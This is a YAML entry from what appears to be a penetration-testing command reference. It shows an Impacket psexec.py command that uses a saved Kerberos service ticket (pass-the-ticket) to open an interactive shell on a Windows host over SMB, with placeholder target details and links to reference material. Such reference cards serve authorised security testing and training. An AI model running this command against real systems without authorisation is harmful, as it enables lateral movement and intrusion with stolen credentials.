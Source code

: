 ```yaml
---
description: |
  Impacket's psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host. psexec.py also allows using Service Tickets, saved as a ccache file for Authentication. It can be obtained via Impacket's GetST.py
  Command Reference:
  	Target IP: 10.10.10.1
  	Domain: test.local
  	Username: john
command: |
  export KRB5CCNAME=/full/path/to/john.ccache; python3 psexec.py test.local/john@10.10.10.1 -k -no-pass
items:
  - Service Ticket
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://www.sans.org/blog/psexec-python-rocks/
  - https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket#pass-the-ticket-attack
---
```

